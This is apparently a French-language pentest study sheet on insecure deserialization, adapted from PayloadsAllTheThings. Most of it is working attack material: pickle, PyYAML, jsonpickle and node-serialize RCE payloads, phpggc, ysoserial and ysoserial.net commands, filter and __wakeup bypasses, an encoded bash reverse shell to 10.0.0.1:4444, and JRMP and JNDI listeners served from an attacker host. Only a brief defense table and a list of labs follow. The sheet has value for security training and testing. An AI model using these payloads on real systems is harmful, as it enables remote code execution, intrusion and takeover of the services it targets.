

# Insecure Deserialization

> [!info] **En 1 phrase**
> La sérialisation transforme un objet en données (fichier, cookie, requête) ; la **désérialisation** le reconstitue.
> Si des données **non fiables** sont désérialisées, l'attaquant peut **injecter des objets** dont les méthodes
> magiques / gadget chains exécutent du code → **RCE**, auth bypass, DoS.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)**

---

## Concept



> [!info] **Pourquoi ça marche**
> La désérialisation **reconstitue un objet à partir de données** : elle instancie des classes et appelle des
> méthodes avec nos valeurs. On ne peut pas définir nos propres classes côté victime, mais on peut **réutiliser
> celles déjà chargées** (bibliothèques) et chaîner leurs méthodes → c'est la **gadget chain**.

---

## Où trouve-t-on des objets sérialisés

| Vecteur | Exemple | Format typique |
|---|---|---|
| **Cookies** | `session`, `auth`, `prefs`, `user` | base64 (Java/PHP/.NET) ou raw |
| **Hidden fields** | `<input type="hidden">` dans les formulaires | .NET ViewState, JSON |
| **Paramètres HTTP** | `data=`, `obj=`, `payload=` | JSON / YAML / raw |
| **Bases de données** | colonnes `BLOB`/`TEXT`/`MEDIUMBLOB` | pickle, JSON, Marshal |
| **Sessions serveur** | `$_SESSION`, `redis`, files | PHP serialize, pickle |
| **Headers** | `Authorization`, `Cookie`, custom | base64 |
| **Files uploads** | PHAR, images exif, `.rce` | PHAR, pickle |
| **Messages / queues** | RabbitMQ, Kafka, RMI | Java serialized |

> [!tip] Premier réflexe : un cookie qui **finit par `=`** (base64) et se décode en binaire étrange =
> données sérialisées. Toute donnée binaire encodée en base64 est un candidat.

---

## Identifier le format (magic bytes)

| Type d'objet | Header hex | Header base64 | Indices visuels |
|---|---|---|---|
| **.NET ViewState** | `FF 01` | `/w` | hidden inputs dans les formulaires HTML |
| **.NET BinaryFormatter** | `0001 0000 00FF FFFF FF01` | `AAEAAAD` | suite `FF FF FF FF` après décodage |
| **Java Serialized** | `AC ED` | `rO0AB` | souvent `AC ED 00 05` |
| **PHP Serialized** | `4F 3A` (`O:`) | `Tz` | préfixes `O:`, `a:`, `s:`, `i:`, `b:` + longueurs |
| **Python Pickle** | `80 04 95` | `gASV` | texte : opcodes `(lp0, S'Test'` |
| **Ruby Marshal** | `04 08` | `BAgK` | `\x04\x08` au début |
| **Node serialize** | — | — | `_$$ND_FUNC$$_` en clair dans le JSON |

```bash
# Détection rapide dans Burp Decoder / CyberChef
echo "cookie" | base64 -d | xxd | head -5
#  ac ed 00 05  → Java
#  4f 3a 34 3a  → PHP (O:4:...)
#  80 04 95     → Python 3 (pickle)
#  04 08        → Ruby (Marshal)
```

> [!warning] Le cookie peut être **base64 ET URL-encodé**, ou contenir un préfixe avant les données
> (ex. `session=<base64>`, `viewstate=<base64>`). Toujours vérifier les deux.

---

## PHP — Object Injection

### Serialization basics

```php
<?php
class User {
    public $username = "admin";
    public $role = "user";
}
echo serialize(new User());
// O:4:"User":2:{s:8:"username";s:5:"admin";s:4:"role";s:4:"user";}
```

| Préfixe | Type | Exemple |
|---|---|---|
| `a:` | tableau | `a:2:{i:0;s:1:"a";i:1;s:1:"b";}` |
| `s:` | string | `s:5:"admin";` (longueur obligatoire) |
| `O:` | objet | `O:4:"User":2:{...}` |
| `i:` / `b:` / `d:` | int / bool / float | `i:1;` `b:1;` `d:1.5;` |
| `N;` | null | `N;` |

### Sink vulnérable

```php
<?php
// Les données du cookie sont non fiables
$data = unserialize($_COOKIE['auth']);
// base64 avant désérialisation
$data = unserialize(base64_decode($_COOKIE['auth']));
```

### Modifier les attributs (auth bypass)

```php
// Original (cookie décodé)
// O:4:"User":2:{s:8:"username";s:5:"admin";s:4:"role";s:4:"user";}
// Payload : on passe role=user → role=admin
// O:4:"User":2:{s:8:"username";s:5:"admin";s:4:"role";s:5:"admin";}
```

> [!warning] **Les longueurs `s:N:` doivent être exactes** : changer `"user"` (4) en `"admin"` (5)
> exige `s:5:` sinon `unserialize()` échoue. Privilégier des valeurs de **même longueur**.

### Object Injection via méthodes magiques

```php
<?php
class Logger {
    public $log_file;
    public function __destruct() {
        file_put_contents($this->log_file, "pwned\n");
    }
    public function __toString() {
        return file_get_contents($this->log_file);
    }
}
// __destruct → écriture de fichier
// O:6:"Logger":1:{s:8:"log_file";s:9:"/tmp/pwn";}
```

| Méthode magique | Déclenchée par | Usage offensif |
|---|---|---|
| `__wakeup()` | désérialisation (avant) | exécution directe |
| `__destruct()` | fin de vie de l'objet | écriture fichier, cmd |
| `__toString()` | cast en string | XSS, lecture fichier, chaine |
| `__call()` | appel de méthode inexistante | router de gadgets |
| `__get()` / `__set()` | accès propriété | POP chain |
| `__sleep()` / `__serialize()` | sérialisation | à éviter côté défense |

### POP chain & PHPGGC (pre-built gadget chains)

> Une **POP chain** (Property Oriented Programming) assemble des gadgets = morceaux de code des classes
> **déjà présentes** (frameworks, libs Composer) qui se chaînent pendant `__destruct`/`__toString`/`__wakeup`
> jusqu'à l'appel `system()`.

```bash
# Lister les chaînes disponibles
phpggc -l
# Générer un payload pour une chaîne RCE
phpggc Monolog/RCE1 system 'id'
phpggc Laravel/RCE5 system 'id'
phpggc Symfony/RCE4 exec 'id'
# Encodages pratiques pour cookie
phpggc Monolog/RCE1 system 'id' --base64
phpggc Monolog/RCE1 system 'id' --urlencode
phpggc -j Laravel/RCE1 system 'id'          # JSON
```

| Groupe | Chaînes notables |
|---|---|
| **Laravel** | RCE1-9 (Builder, BelongsToMany, PendingCommand…) |
| **Symfony** | RCE1-12 (Process, TokenStorage, Logger…) |
| **Monolog** | RCE1-9 (BufferHandler + passthru) |
| **Guzzle** | FW1-2 (CookieJar, Proxy) |
| **Slim / ThinkPHP / Zend** | RCE1-4 / RCE1-3 / FW1 |

### Bypass de filtres

```bash
# WAF qui bloque "O:4:" → le '+' est toléré par unserialize()
# O:+4:"User":2:{...}
# Les noms de classes PHP sont insensibles à la casse :
# O:4:"user":2:{...} == O:4:"USER":2:{...}
# Encodages : URL-encode, base64, échappement (selon le pipeline)
```

> [!tip] **CVE-2016-7124 (bypass `__wakeup`)** : si `__wakeup()` vérifie nos données et qu'on veut
> le contourner, augmenter le **nombre de propriétés déclaré** dans le payload
> (`O:4:"Class":3:{...}` alors que l'objet en a 1) → `__wakeup()` n'est **pas** appelé (PHP < 7.4).

### PHAR deserialization

```php
<?php
// Un fichier PHAR contient un "metadata" sérialisé.
// Tout stream wrapper phar:// déclenche SA désérialisation,
// même via file_exists(), file_get_contents(), include()...
file_exists('phar://malicious.phar/test.txt');

// Construction (phar.readonly=0 requis)
// php --define phar.readonly=0 build.php
```

> [!tip] PHAR = désérialisation **sans fonction `unserialize()`** dans le code : la vuln se déclenche
> via un point d'inclusion (LFI) pointant vers un fichier qu'on contrôle (upload, exif, SVG).

---

## Python — pickle / PyYAML / jsonpickle

### pickle (`pickle.loads`)

```py
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ('id',))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(payload)   # gASV... → à mettre dans le cookie/param
```

```py
# Variantes avec subprocess
import pickle, subprocess, base64

class RCE:
    def __reduce__(self):
        return (subprocess.check_output, (['id'],))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
```

> [!info] `__reduce__` doit renvoyer un tuple `(callable, args)` : Python appelle `callable(*args)`
> à la désérialisation. **Jamais `pickle.loads()` sur des données non fiables.**

### PyYAML (`yaml.load`)

```yaml
# yaml.load() sans loader sûr = désérialisation Python !
!!python/object/apply:os.system ["id"]
!!python/object/apply:subprocess.Popen ['/bin/sh -c id']
!!python/object/apply:builtins.eval ["__import__('os').system('id')"]
```

```py
import yaml
yaml.load(data)          # unsafe → RCE
yaml.load(data, Loader=yaml.UnsafeLoader)  #
yaml.safe_load(data)     # sûr (pas d'objets Python)
```

### jsonpickle

```json
{"py/reduce": [{"py/function": "os.system"}, ["id"], null, null, null]}
```

> [!warning] jsonpickle encode les classes avec des tags `py/object`, `py/reduce`, `py/type` :
> un `jsonpickle.decode()` sur des données non fiables peut déclencher du code (RCE / SSRF).

---

## Java — ObjectInputStream & ysoserial

```java
// Sink classique (servlet, socket RMI, session)
ObjectInputStream in = new ObjectInputStream(socket.getInputStream());
Object obj = in.readObject();   // reconstruit des objets arbitraires
```

### ysoserial

```bash
# Magic bytes : AC ED 00 05 (raw) → rO0AB... (base64)
# Usage de base (génère un payload binaire)
java -jar ysoserial.jar CommonsCollections6 'id' > payload.bin
# Reverse shell propre (évite les métacaractères)
java -jar ysoserial.jar CommonsCollections6 \
  'bash -c {echo,YmFzaCAtYyB7ZWNoLC1lLC9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDAmMX0gfCB7YmFzZSwtZH0gfCBiYXNo}|{base64,-d}|bash' \
  > payload.bin

# Encoder pour un cookie
java -jar ysoserial.jar CommonsCollections6 'id' | base64 -w0
```

### Chaines principales

| Chaîne ysoserial | Dépendance / condition |
|---|---|
| `CommonsCollections1` | CC 3.1-3.2.1, **Java ≤ 8u71** |
| `CommonsCollections2` | CC 4.0 |
| `CommonsCollections3` | CC 3.1-3.2.1, Java ≤ 8u71 |
| `CommonsCollections4` | CC 4.0 |
| `CommonsCollections5` | CC 3.x, Java 8 (BadAttributeValueExpException) |
| `CommonsCollections6` | CC 3.x-4.x, **Java 8 — la plus fiable** |
| `CommonsCollections7` | CC 3.x-4.x (HashMap/Hashtable) |
| `CommonsBeanutils1` | CommonsBeanutils 1.9.2 |
| `Groovy1` | Groovy (CallSiteArray) |
| `Spring1` / `Spring2` | Spring AOP |
| `Jdk7u21` | **JDK ≤ 7u21, sans aucune lib** |
| `Jdk8u20` | JDK 8u20 |
| `URLDNS` | aucune lib → **détection DNS** (collaborator) |
| `JRMPClient` / `JRMPListener` | attaque RMI (cf. ci-dessous) |

```bash
# Détection passive : si la cible résout le domaine, le endpoint désérialise
java -jar ysoserial.jar URLDNS "http://BURP-COLLABORATOR/$(hostname)" > probe.bin
base64 -w0 probe.bin   # → injecter dans le cookie

# Extension Burp "Java Deserialization Scanner" :
#   1. détecte le point via URLDNS
#   2. teste automatiquement toutes les chaînes ysoserial
```

### RMI / JRMP / marshalsec (quand ysoserial direct échoue)

> Si aucune chaîne ne marche (libs inconnues), on **force la cible à se connecter à nous**
> (SSRF/deserial → reverse RMI/JNDI) et on sert l'exploit depuis notre serveur.

```bash
# 1. Listener RMI qui exécute le payload côté cible
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 'id'

# 2. Payload qui force la cible à contacter notre listener
java -jar ysoserial.jar JRMPClient <IP_ATTAQUANT>:1099 | base64 -w0

# JNDI RefServer (RMIRefServer / LDAPRefServer) — marshalsec
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://IP_ATTAQUANT:8000/#Exploit" 1099
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://IP_ATTAQUANT:8000/#Exploit" 1389

# JDK ≥ 8u191 / 11 : JNDI versionné (com.sun.jndi.rmi.object.trustURLCodebase) — vérifier la version !
```

> [!warning] Depuis les correctifs (com.sun.jndi.* trustURLCodebase, JEP 290), les références JNDI
> vers des serveurs HTTP externes sont **bloquées par défaut** sur les JDK récents. Tester la version JDK
> avant de perdre du temps sur JNDI.

---

## Ruby — Marshal

```ruby
# Sink
data = Marshal.load(untrusted_input)
```

```ruby
# Magic bytes : \x04\x08 (hex) = BAgK (base64)
# Aucune lib requise si on utilise une "universal gadget chain" documentée :
# ex. chain ElMariachi (2016) → eval via Tempfile/Dir, ou la chain Rails 2.x du lab PortSwigger
require 'base64'
payload = Marshal.dump(pwn)          # pwn = objet construit avec la chain
puts Base64.strict_encode64(payload)
```

> [!info] Les chaines Ruby fiables : **ElMariachi's Universal RCE gadget** (2016) et la **documented
> chain Rails** (lab PortSwigger "Exploiting Ruby deserialization using a documented gadget chain")
> basée sur `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` → `ERB` → `eval`.

---

## .NET — BinaryFormatter / JSON.NET / ViewState

### BinaryFormatter (magic `00 01 00 00 00 FF FF FF FF` / base64 `AAEAAAD`)

```bash
# ysoserial.net
.\ysoserial.exe -g ObjectDataProvider -f BinaryFormatter -c calc
.\ysoserial.exe -g TextFormattingRunProperties -f BinaryFormatter -c calc
.\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c calc
```

### JSON.NET (`TypeNameHandling.All/Objects` + ObjectDataProvider → RCE)

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "MethodName": "Start",
  "ObjectInstance": {
    "$type": "System.Diagnostics.Process, System",
    "StartInfo": {
      "$type": "System.Diagnostics.ProcessStartInfo, System",
      "FileName": "cmd",
      "Arguments": "/c calc"
    }
  }
}
```

```bash
# Génération via ysoserial.net
.\ysoserial.exe -g ObjectDataProvider -f Json.Net --plugin "C:\Windows\System32\cmd.exe" -c "/c calc" -o raw
```

### ViewState (`FF 01` / `/w`, hidden input `__VIEWSTATE`)

> Le ViewState est **MAC-signé** (IIS machineKey) : il n'est exploitable que si on connaît
> `machineKey` (oracle padding / key leak) → outil `blacklist3r` / `ysoserial.net` mode `ViewState`.

```bash
.\ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter --decrypt --validationkey=<machineKey> -c "cmd /c calc"
```

---

## Node.js — node-serialize

```js
// Cookie/param contenant du JSON node-serialize :
// {"rce":"_$$ND_FUNC$$_function(){...}()"}
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('id',function(e,s,p){console.log(s);}); }()"}
```

> [!info] `_$$ND_FUNC$$_` est le marqueur de la lib `node-serialize` : le code entre `_$$ND_FUNC$$_`
> et `$$ND_FUNC$$_` est **évalué**. Equivalent : `eval()` sur `JSON.parse()` non fiable.

---

## Gadget Chains — pourquoi ça compte

> Une **POP chain** est une séquence de méthodes **réelles** de classes existantes, déclenchées par la
> désérialisation, qui aboutit à un appel dangereux (`system()`, `Process.start`, `eval`, `Runtime.exec`).

Caractéristiques d'un **gadget** :

- **Sérialisable** (sinon la désérialisation l'ignore)
- **Propriétés publiques / accessibles** (on les remplit via le payload)
- Implémente des **méthodes déclenchées automatiquement** (magic methods)
- A accès à **d'autres classes callables** (pour chaîner)

| Langage | Méthodes déclenchées à la désérialisation | Sources de gadgets |
|---|---|---|
| PHP | `__wakeup`, `__destruct`, `__toString`, `__call` | Composer : Monolog, Laravel, Symfony, Guzzle, Slim |
| Java | `readObject`, `readResolve`, `finalize` | classpath : CommonsCollections, Groovy, Spring, Hibernate, Beanutils, ROME |
| Python | `__reduce__`, `__setstate__`, `__setattr__` | modules chargés (os, subprocess, builtins…) |
| Ruby | `Marshal.load` | gems : Rails, ActiveSupport, Tempfile/Dir |
| .NET | constructeurs / `ObjectDataProvider` | GAC : PresentationFramework, System.Diagnostics |

> [!warning] On n'injecte **jamais de code dans l'objet sérialisé** (à part node-serialize) : on injecte
> des **données** qui font réagir des classes déjà chargées. D'où l'importance de connaître les
> **bibliothèques** de l'application (banner, versions, stacktrace, package-lock/composer.lock).

---

## Détection & Défense

| Point | Détail |
|---|---|
| **Magic bytes / format** | `.NET ViewState` `FF 01` → `/w` · BinaryFormatter `0001…FF01` → `AAEAAAD` · **Java** `AC ED` → `rO0AB` · **PHP** `O:`/`a:`/`s:` (hex `4F 3A`) · **pickle** `80 04 95` → `gASV` · **Marshal** `04 08` → `BAgK` |
| **Outils de détection** | Burp **Java Deserialization Scanner** (extender), Burp Decoder/CyberChef, `java-deserialization-scanner`, `ysoserial`, `phpggc`, `marshalsec`, **DeserLab** (entraînement) |
| **Erreurs révélatrices** | `java.io.ObjectStreamException`, `InvalidClassException`, `PHP Warning: unserialize(): Error at offset…`, `TypeError: Failed to read`, stacktraces → révèlent la lib/version |
| **Whitelist de types** | Java : `ObjectInputFilter`/`resolveClass` (JEP 290) · Python : `UnsafeLoader`→`SafeLoader`, override `find_class()` · .NET : `SerializationBinder` |
| **Ne jamais désérialiser de données non fiables** | cookies/sessions → remplacer par JSON + id opaque côté serveur |
| **Signatures (HMAC)** | signer les données sérialisées (ex. ViewState machineKey, cookie signé) → invalide toute modification |
| **JSON pur** | préférer JSON (sans `$type` / `py/object` / `_$$ND_FUNC$$_`) pour les données client |
| **Mises à jour** | patcher ysoserial-compatible libs : CommonsCollections, Groovy, JSON.NET, pickle en interne |

---

## Labs

- PortSwigger Web Security Academy — Insecure deserialization (modifying objects, gadget chains PHP/Java, PHAR, Ruby) : https://portswigger.net/web-security/all-labs#insecure-deserialization
- Root-Me : PHP - désérialisation / Python pickle : https://www.root-me.org/
- DeserLab (app vulnérable d'entraînement) : https://github.com/NickstaDB/DeserLab

---

## Tips & Pièges

> [!tip] **Ordre de test**
> 1. Repérer le point d'entrée (cookie base64, hidden field, param JSON).
> 2. Décoder → identifier le format via **magic bytes** (table ci-dessus).
> 3. Modifier à la main (PHP `s:N:`, JSON) pour confirmer l'injection → auth bypass facile.
> 4. Identifier le **langage + libs** (headers, stacktraces, erreurs, version d'app).
> 5. Choisir la gadget chain adaptée (PHPGGC / ysoserial / chain Ruby documentée).
> 6. Générer → encoder (base64/url) → injecter → récupérer le shell.

> [!warning] **base64 vs raw**
> - Un cookie `rO0AB…` est du Java en **base64** ; `AC ED 00 05` est la version **raw**.
> - PHP peut être **raw** (`O:4:…`) ou base64 (`Tzo0…`).
> - Parfois le paramètre est **doublement encodé** (base64 puis URL). Toujours essayer l'inverse.

> [!warning] **Quand ysoserial échoue**
> - **Version de libs** : CC1 ne marche que ≤ Java 8u71 + CC 3.1-3.2.1 → tester CC2, CC5, CC6, CC7, Beanutils1, Groovy1…
> - Le payload généré est **binaire** : le renvoyer en base64 peut casser les octets → vérifier avec un echo/xxd.
> - Erreur `ClassNotFound` dans la stacktrace = la bonne info (lib + version) → choisir la chaine exacte.
> - Si aucune chaine → **JRMPClient + marshalsec** (RMI/JNDI) pour un RCE "universel" sous réserve de la version JDK.

> [!warning] **Pièges PHP**
> - Les longueurs `s:N:` doivent être **exactes** (compter les caractères !).
> - Nom de classe **insensible à la casse** ; `O:+4:…` bypass certains WAF regex.
> - CVE-2016-7124 : fausser le nombre de propriétés pour sauter `__wakeup()`.
> - PHAR : la désérialisation se déclenche via `file_exists()/include` sur un `phar://` — couplé à un LFI/upload.

> [!warning] **Pièges généraux**
> - Un cookie signé (HMAC) ne se modifie pas — chercher la clé ailleurs.
> - L'attaque dépend de la **version exacte** des libs : collecter les versions AVANT de générer.
> - Node `_$$ND_FUNC$$_` = évaluation directe → c'est le seul cas où on injecte du code, pas des gadgets.

---

## Liens

- [[Injection de commandes| Injection de commandes]]
- [[LFI et RFI| LFI / RFI]]
- [[XXE| XXE]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Insecure Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)
